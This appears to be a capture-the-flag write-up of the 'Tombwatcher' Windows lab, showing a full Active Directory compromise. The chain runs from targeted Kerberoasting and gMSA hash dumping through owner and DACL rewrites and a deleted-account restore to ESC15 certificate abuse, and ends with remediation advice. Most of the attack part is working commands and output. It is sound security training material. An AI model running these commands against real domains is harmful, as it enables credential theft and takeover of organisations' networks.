

|Property|Value|
|---|---|
|**OS**|Windows|
|**Difficulty**|Medium|
|**Release Date**|2025-06-07|
|**State**|Active|
|**IP**|10.129.144.23|
|**Techniques**|targeted Kerberoasting, ACL abuse (AddSelf, ForceChangePassword, WriteOwner/DACL), gMSA password extraction, tombstone restore, ADCS template EKU abuse, Schannel LDAP bind|
|**Tags**|#ad #windows #privesc #kerberos #adcs #gmsa|

---

## Summary

Tombwatcher is a medium Windows machine centered on Active Directory, built entirely around a chain of ACL misconfigurations. Starting credentials for `henry` are provided. `henry` holds `WriteSPN` over `alfred`, enabling a targeted Kerberoasting attack that recovers `alfred`'s cracked password. `alfred` can add himself to the `INFRASTRUCTURE` group, which is authorized to read the password blob of a Group Managed Service Account, `ansible_dev$`. The gMSA's NT hash is dumped and used, via a `ForceChangePassword` right, to reset the password of `sam`. `sam` in turn holds `WriteOwner` over `john`; taking ownership and rewriting the object's DACL grants full control over `john`'s account, whose password is reset to obtain WinRM access and the user flag.

`john` holds `GenericAll` over the `ADCS` organizational unit, inside which several deleted `cert_admin` objects still exist. Restoring one of them recovers an account that is explicitly granted enrollment rights on the `WebServer` certificate template — a Schema Version 1 template that does not restrict the Extended Key Usage requested at enrollment time. Requesting a certificate as `cert_admin` with a spoofed UPN of `administrator@tombwatcher.htb` and an injected `Client Authentication` application policy produces a certificate that, while rejected for Kerberos PKINIT, is still accepted for an LDAPS Schannel bind as the domain `Administrator`. The resulting authenticated LDAP shell is used to reset the `Administrator` password directly, completing the domain compromise.

---

## Enumeration

```
echo '10.129.144.23 tombwatcher.htb' | sudo tee -a /etc/hosts
```

### Nmap Scan

```
nmap -sC -sV tombwatcher.htb --open
Starting Nmap 7.95 ( https://nmap.org ) at 2026-09-24 03:23 EDT
Nmap scan report for tombwatcher.htb (10.129.144.23)
Host is up (0.053s latency).
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-09-24 11:23:41Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Global Catalog)
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Global Catalog SSL)
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP) — WinRM

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
|_clock-skew: mean: 4h00m01s, deviation: 0s, median: 4h00m00s

Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

The host is a single domain controller, `DC01.tombwatcher.htb`. Nmap flags a **~4 hour clock skew**, which resurfaces repeatedly during Kerberos operations later on and has to be corrected each time with `ntpdate`.

### Starting Credentials

```
henry : H3nry_987TGV!
```

### SMB / User Enumeration

```
nxc smb tombwatcher.htb -u henry -p 'H3nry_987TGV!' --users
```

```
SMB   10.129.144.23   445    DC01   -Username-      -Last PW Set-       -BadPW- -Description-
SMB   10.129.144.23   445    DC01   Administrator    2025-04-25 14:56:03 0       Built-in account for administering the computer/domain
SMB   10.129.144.23   445    DC01   Guest            <never>             0       Built-in account for guest access to the computer/domain
SMB   10.129.144.23   445    DC01   krbtgt           2024-11-16 00:02:28 0       Key Distribution Center Service Account
SMB   10.129.144.23   445    DC01   Henry            2025-05-12 15:17:03 0
SMB   10.129.144.23   445    DC01   Alfred           2025-05-12 15:17:03 0
SMB   10.129.144.23   445    DC01   sam              2025-05-12 15:17:03 0
SMB   10.129.144.23   445    DC01   john             2025-05-19 13:25:10 0
SMB   10.129.144.23   445    DC01   [*] Enumerated 7 local users: TOMBWATCHER
```

Only default shares (`NETLOGON`, `SYSVOL`) are readable — the path forward has to come from AD object permissions.

### BloodHound Collection

```
sudo bloodhound-python -u henry -p 'H3nry_987TGV!' -ns 10.129.144.23 -d tombwatcher.htb -c all --zip
```

Collection succeeds after correcting the clock skew (`sudo ntpdate tombwatcher.htb`). Graphing the shortest path from `henry` towards high-value targets lays out the entire attack chain in a single picture:



`henry` → (`WriteSPN`) → `alfred` → (`AddSelf`) → `INFRASTRUCTURE` → (`ReadGMSAPassword`) → `ansible_dev$` → (`ForceChangePassword`) → `sam` → (`WriteOwner`) → `john` → (`GenericAll`) → `OU=ADCS`

Every step below is one edge of this chain.

---

## Lateral Movement: `henry` → `alfred`

### Targeted Kerberoasting (abusing `WriteSPN`)

`henry` holds `WriteSPN` over `alfred` — a narrow write right limited to the `servicePrincipalName` attribute. Any account with a registered SPN can be "Kerberoasted": any authenticated domain user can request a Kerberos service ticket for that SPN, which is encrypted with the target account's own password hash and can be cracked offline. `alfred` normally has no SPN and isn't Kerberoastable, but the `WriteSPN` right lets `henry` temporarily assign one, request the ticket, and then remove the SPN again — a **targeted Kerberoast**.

### Exploitation

```shell
python3 targetedKerberoast.py -v -d 'tombwatcher.htb' -u 'henry' -p 'H3nry_987TGV!'
```

```
[VERBOSE] SPN added successfully for (Alfred)
[+] Printing hash for (Alfred)
$krb5tgs$23$*Alfred$TOMBWATCHER.HTB$tombwatcher.htb/Alfred*$...
[VERBOSE] SPN removed successfully for (Alfred)
```

The tool sets a temporary SPN on `alfred`, requests a TGS, prints the crackable hash, then cleans up after itself. Cracking it offline:

```shell
hashcat -m 13100 alfred.hash /usr/share/wordlists/rockyou.txt
```

```
$krb5tgs$23$*Alfred$TOMBWATCHER.HTB$...:basketball
```

Credentials recovered: `alfred:basketball`

---

## Lateral Movement: `alfred` → `ansible_dev$`

### `AddSelf` on the `INFRASTRUCTURE` group

`alfred` holds `AddSelf` over the `INFRASTRUCTURE` group, letting him join it without needing `Manage` rights over the group itself:

```shell
bloodyAD --host DC01.tombwatcher.htb -d tombwatcher.htb -u alfred -p basketball add groupMember INFRASTRUCTURE alfred
```

```
[+] alfred added to INFRASTRUCTURE
```

### Reading the gMSA Password

Group Managed Service Accounts (gMSAs) store their live password in the `msDS-ManagedPassword` attribute. Only principals listed in the account's `msDS-GroupMSAMembership` are allowed to read it — and `INFRASTRUCTURE` is one of them. Now a member of that group, `alfred` can dump the gMSA `ansible_dev$`'s current credential material:

```shell
python3 gMSADumper.py -u 'alfred' -p 'basketball' -d 'tombwatcher.htb'
```

```
Users or groups who can read password for ansible_dev$:
 > Infrastructure
ansible_dev$:::3eca34dd13a85db79c03178b7b149621
```

NT hash recovered for `ansible_dev$`.

---

## Lateral Movement: `ansible_dev$` → `sam`

### `ForceChangePassword`

The gMSA `ansible_dev$` holds `ForceChangePassword` over `sam`, an extended right that allows setting a brand-new password without knowing the current one. Since only the NT hash is known for the gMSA, the reset is performed with Pass-the-Hash:

```shell
pth-net rpc password "sam" 'newP@ssword2022' \
  -U "tombwatcher.htb"/"ansible_dev$"%"ffffffffffffffffffffffffffffffff":"3eca34dd13a85db79c03178b7b149621" \
  -S DC01.tombwatcher.htb
```

`sam`'s password is now `newP@ssword2022`.

---

## Lateral Movement: `sam` → `john`

### `WriteOwner` → Full Control via DACL Rewrite

`sam` holds `WriteOwner` over `john`'s AD object. Taking ownership of an object implicitly grants the new owner the ability to rewrite its DACL (`WRITE_DAC`), regardless of what permissions were there before:

```shell
impacket-owneredit -action write -new-owner sam -target john \
  tombwatcher.htb/sam:'newP@ssword2022' -dc-ip 10.129.144.23
```

```
[*] OwnerSid modified successfully!
```

With ownership secured, a new ACE granting `sam` full control over `john` is written directly:

```shell
impacket-dacledit -action write -rights FullControl -principal sam -target john \
  tombwatcher.htb/sam:'newP@ssword2022' -dc-ip 10.129.144.23
```

```
[*] DACL modified successfully!
```

`john`'s password is now reset outright:

```shell
net rpc password "john" "newP@ssword2022" -U "tombwatcher.htb"/"sam"%"newP@ssword2022" -S 10.129.144.23
```

---

## User Flag

`john` is a member of the Remote Management Users group, granting WinRM access directly:

```shell
evil-winrm -i tombwatcher.htb -u john -p 'newP@ssword2022'
```

```
*Evil-WinRM* PS C:\Users\john\Desktop> type user.txt
b3438e9f759311d129b2b03ecaaa313f
```

---

## Privilege Escalation

### Enumeration

`john` holds `GenericAll` over the `OU=ADCS` organizational unit:

```shell
netexec ldap 10.129.144.23 -u john -p 'newP@ssword2022' --query "(ou=ADCS)" ""
```

To make sure this right cascades to every object underneath the OU (including tombstoned/deleted ones), an explicit, inheritable Full Control ACE is written:

```shell
impacket-dacledit -action write -rights FullControl -inheritance \
  -principal 'john' -target-dn 'OU=ADCS,DC=tombwatcher,DC=htb' \
  'tombwatcher.htb/john:newP@ssword2022' -dc-ip 10.129.144.23
```

A `certipy-ad find -vulnerable` scan reports no classic ESC1/ESC2-style misconfigurations, but a full enumeration of every enabled template (`certipy-ad find -enabled`) shows something unusual: the **`WebServer`** template grants enrollment rights not just to Domain/Enterprise Admins, but also to a bare SID that no longer resolves to a name:

```
Template Name   : WebServer
Enrollee Supplies Subject : True
Certificate Name Flag     : EnrolleeSuppliesSubject
Extended Key Usage        : Server Authentication
Schema Version            : 1
Enrollment Rights          : TOMBWATCHER.HTB\Domain Admins
                              TOMBWATCHER.HTB\Enterprise Admins
                              S-1-5-21-1392491010-1358638721-2126982587-1111
```

Two things stand out:

1. **`Enrollee Supplies Subject`** means the requester chooses their own certificate subject (including a UPN), instead of the CA deriving it from their own AD identity.
2. The template is **Schema Version 1** — an older format that has no explicit `msPKI-Certificate-Application-Policy` restriction, meaning the client can request an arbitrary application policy (EKU) at enrollment time regardless of what the template defines. This EKU-smuggling behavior on legacy V1 templates is a known ADCS abuse primitive (tracked as **ESC15**).

The unresolved SID belongs to a **deleted** user object. Enumerating writable objects as `john` confirms his `GenericAll` on `OU=ADCS` cascades down to three tombstoned accounts still sitting in `Deleted Objects`:

```shell
bloodyAD --host tombwatcher.htb --dns 10.129.144.23 -d tombwatcher.htb -u john -p 'newP@ssword2022' get writable
```

```
distinguishedName: CN=cert_admin\0ADEL:938182c3-bf0b-410a-9aaa-45c8e1a02ebf,CN=Deleted Objects,DC=tombwatcher,DC=htb
permission: CREATE_CHILD; WRITE
OWNER: WRITE
DACL: WRITE
```

The deleted `cert_admin` object's SID (`...-1111`) matches the one granted enrollment rights on `WebServer` — it was the account originally intended to enroll for that template, and its tombstone can be restored because it used to live inside the now-fully-controlled `OU=ADCS`.

### Exploitation

Restoring the deleted account:

```shell
bloodyAD --host tombwatcher.htb --dns 10.129.144.23 -d tombwatcher.htb -u john -p 'newP@ssword2022' \
  set restore "CN=cert_admin\0ADEL:938182c3-bf0b-410a-9aaa-45c8e1a02ebf,CN=Deleted Objects,DC=tombwatcher,DC=htb"
```

```
[+] ...has been restored successfully under CN=cert_admin,OU=ADCS,DC=tombwatcher,DC=htb
```

Setting an arbitrary password on the freshly restored account (`GenericAll` on the OU cascades this far too):

```shell
bloodyAD --host tombwatcher.htb --dns 10.129.144.23 -d tombwatcher.htb -u john -p 'newP@ssword2022' \
  set password cert_admin 'Password123!'
```

A certificate is requested as `cert_admin` from `WebServer`, spoofing the subject as the domain `Administrator` and smuggling in a `Client Authentication` application policy the template doesn't natively grant:

```shell
certipy-ad req -u cert_admin -p 'Password123!' -dc-ip 10.129.144.23 \
  -ca tombwatcher-CA-1 -template WebServer \
  -upn administrator@tombwatcher.htb \
  -application-policies "Client Authentication"
```

```
[*] Got certificate with UPN 'administrator@tombwatcher.htb'
[*] Wrote certificate and private key to 'administrator.pfx'
```

Using the certificate for Kerberos PKINIT authentication fails — the EKU smuggled into the request is not honored strongly enough for the KDC to issue a TGT:

```shell
certipy-ad auth -pfx administrator.pfx -dc-ip 10.129.144.23
```

```
[-] Certificate is not valid for client authentication
```

However, the same certificate is still accepted for an **LDAPS Schannel bind** (certificate-based LDAP authentication maps the UPN SAN to the AD identity without repeating the strict EKU checks Kerberos PKINIT enforces):

```shell
certipy-ad auth -pfx administrator.pfx -dc-ip 10.129.144.23 -ldap-shell
```

```
[*] Authenticated to '10.129.144.23' as: 'u:TOMBWATCHER\Administrator'
```

From the authenticated LDAP shell, the domain `Administrator`'s password is reset directly:

```
# change_password administrator 'Pwned123!'
Password changed successfully!
```

---

## Root Flag

```shell
evil-winrm -i tombwatcher.htb -u 'Administrator' -p 'Pwned123!'
```

```
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
9d7fd19fee00bb22745c88562c8dac80
```

---

## Remediation

- **`WriteSPN` delegation:** Do not grant standard users write access to the `servicePrincipalName` attribute of other accounts. This right alone is sufficient to make any account Kerberoastable on demand. Enforce long, random passwords on all service-capable accounts to blunt offline cracking regardless.
- **`AddSelf` on privileged/infrastructure groups:** Membership self-service should never be delegated on groups that grant access to sensitive resources (here, gMSA password reads). Audit `AddSelf`/`Self-Membership` ACEs with BloodHound.
- **gMSA password exposure via group membership:** Regularly review `msDS-GroupMSAMembership` on every gMSA and ensure only the specific hosts/services that need the credential are authorized readers.
- **`ForceChangePassword` and `WriteOwner`/DACL abuse:** Both are classic ACL-abuse primitives for hopping between accounts without ever needing to know a password. Audit these edges on all standard user objects, not just admin-tier ones — this chain shows they can be stacked to reach a privileged outcome regardless of individual severity.
- **Cascading `GenericAll` on OUs:** An inheritable Full Control grant on an OU extends to every object underneath it, including deleted/tombstoned ones still retained during the AD recycle-bin lifetime. Scope OU delegations narrowly and disable inheritance where it isn't required.
- **Stale ACEs referencing deleted principals:** The `WebServer` template still granted enrollment rights to a SID belonging to a deleted account. Remove ACEs referencing accounts that no longer exist — a restorable tombstone with a stale privileged grant is equivalent to a live backdoor account.
- **ADCS Schema Version 1 templates (ESC15 / EKU smuggling):** Migrate templates to Schema Version 2+ and explicitly define `msPKI-Certificate-Application-Policy` so the CA enforces EKUs at issuance instead of trusting whatever the enrollee requests. Disable `Enrollee Supplies Subject` on any template not strictly required to use it, and enable `Requires Manager Approval` for sensitive templates.
- **Inconsistent EKU enforcement between PKINIT and Schannel:** A certificate rejected for Kerberos client authentication was still accepted for an LDAPS Schannel bind as the same identity. Enforce strict certificate-mapping and EKU validation consistently across every certificate-based authentication path, not just Kerberos.

---

## References

- [HackTricks — Kerberoasting](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/kerberoast.html)
- [HackTricks — Golden gMSA / gMSA Password Attacks](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/golden-gmsa.html)
- [The Hacker Recipes — ACL Abuse (ForceChangePassword, WriteOwner, GenericAll)](https://www.thehacker.recipes/ad/movement/dacl)
- [SpecterOps — Certified Pre-Owned (ADCS attack primitives, ESCx)](https://posts.specterops.io/certified-pre-owned-d95910965cd2)
- [Certipy — Active Directory Certificate Services Exploitation Toolkit](https://github.com/ly4k/Certipy)
- [Microsoft Learn — Active Directory Recycle Bin / Tombstone Lifetime](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/get-started/adac/introduction-to-active-directory-administrative-center-enhancements--level-100-)
- [Impacket — owneredit / dacledit](https://github.com/fortra/impacket)
- [bloodyAD](https://github.com/CravateRouge/bloodyAD)
- [BloodHound](https://github.com/SpecterOps/BloodHound)